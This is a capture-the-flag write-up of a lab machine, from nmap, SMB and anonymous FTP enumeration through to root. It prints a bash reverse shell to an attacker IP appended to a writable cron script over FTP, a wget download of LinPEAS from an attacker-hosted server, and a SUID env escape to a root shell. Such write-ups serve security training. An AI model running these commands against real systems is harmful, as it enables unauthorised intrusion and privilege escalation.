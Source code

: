 # Enumeration

An initial nmap scan reveals that ports 21, 22, 139, and 445 are open. We follow up with a detailed scan of each of these ports.

![7cae030003b7adee3d1094b4f8879168.png](./_resources/7cae030003b7adee3d1094b4f8879168.png)

![50684020a36a4f6a71b2f2d6f7584193.png](./_resources/50684020a36a4f6a71b2f2d6f7584193.png)

![9a2dd2464eb4d9cd2d09dad0d84a635f.png](./_resources/9a2dd2464eb4d9cd2d09dad0d84a635f.png)

Let's enumerate SMB.  We can use SMBmap to quickly get a list of SMB shares; note that we have read only access to one of them.

![674ac68dff5c389dfb23fce1379f1419.png](./_resources/674ac68dff5c389dfb23fce1379f1419.png)
Use SMB client to gain access to the share (just press enter when prompted for a password).

![a1d5f7615e6e7e59f4b6e76e23cca9b7.png](./_resources/a1d5f7615e6e7e59f4b6e76e23cca9b7.png)

Besides a couple of dog pictures, nothing else seems to be on this share. The only other service we discovered was FTP, and we know from our nmap scan that anonymous login is allowed (just press enter for the password). Let's look around.

![0d1a68b329a093d5876f63f2e8834f33.png](./_resources/0d1a68b329a093d5876f63f2e8834f33.png)

![e0e2854afaff39f857aa7d66f7b0e4cf.png](./_resources/e0e2854afaff39f857aa7d66f7b0e4cf.png)

We find a single directory named "scripts" which contains a bash script, a log and a text file. Transfer the files over to the local machine using `get`. The text file is just a reminder to disable anonymous login (oops). We determine from the .sh and .log file that the script is a cleanup script; the log entries all indicate that nothing has been deleted so far. The script seems to check for files in the `/tmp/` directory and deletes them if necessary. Note that we have read, write and execute permissions for this script.

![f2bedec96f45285efb7b528be67fb95c.png](./_resources/f2bedec96f45285efb7b528be67fb95c.png)

<br>

# Exploitation

The shell script we found earlier looks very much like a cron job. Since we have full rwx permissions for the script, we can attempt to replace it with a script of our choosing and wait for it to be executed. We still need initial access, so we will edit the `clean.sh` file and append its contents with `bash -i >& /dev/tcp/<attacker IP>/<port> 0>&1` (which I found from [this useful page](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)). We then set up a netcat listener to catch the reverse shell.

After editing the reverse shell script with our attacker IP and a port of our choosing, we append the reverse shell script to the target's FTP server using `curl ftp://<target IP>/scripts/clean.sh --upload-file clean.sh --append`. Now set up a netcat listener on the appropriate port, and wait for the shell to execute. This will give us initial access to the target machine.

![6eab930e776a309d62fb0ca523a688b4.png](./_resources/6eab930e776a309d62fb0ca523a688b4.png)

![632cb8b1867b04a3af442db2659fe9d3.png](./_resources/632cb8b1867b04a3af442db2659fe9d3.png)

Looking around, we quickly find the user flag.

![e5a5c8e2136e1eb348fbe2590137014b.png](./_resources/e5a5c8e2136e1eb348fbe2590137014b.png)

<br>

# Post-exploitation

We begin looking for methods to escalate our privileges. Let's use LinPEAS to try and find an avenue for privesc. Within the directory containing the `linpeas.sh` file, host a web server on the attacking machine with `python3 -m http.server`. On the target machine, cd into the `/tmp/` directory, download LinPEAS with `wget http://<attacker IP>:8000/linPEAS.sh`, and use `chmod +x linpeas.sh` to make the file executable. Now run LinPEAS with `./linpeas.sh`.

![3f6e971b8124f4ebe47fc291fd88be78.png](./_resources/3f6e971b8124f4ebe47fc291fd88be78.png)

In the SUID section of the LinPEAS output, we find something interesting:

![e563969444c39f3d0d4192719a524660.png](./_resources/e563969444c39f3d0d4192719a524660.png)

Note: We can also run `find / -type f -perm -u=s 2>/dev/null` to look for binaries with the SUID bit set, although LinPEAS highlights potentially useful binaries.

Checking [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid), we see that we can use the env binary to escalate privileges when the SUID bit is set (which is the case for us). If we simply use `./env /bin/sh -p` in the directory containing the env binary, we break out of our user shell and spawn a root shell. We then quickly find the root flag.

![0628bf699a7068f9a22779a5d3689569.png](./_resources/0628bf699a7068f9a22779a5d3689569.png)

![4baac96617c9149e24fab4b3a51313a2.png](./_resources/4baac96617c9149e24fab4b3a51313a2.png)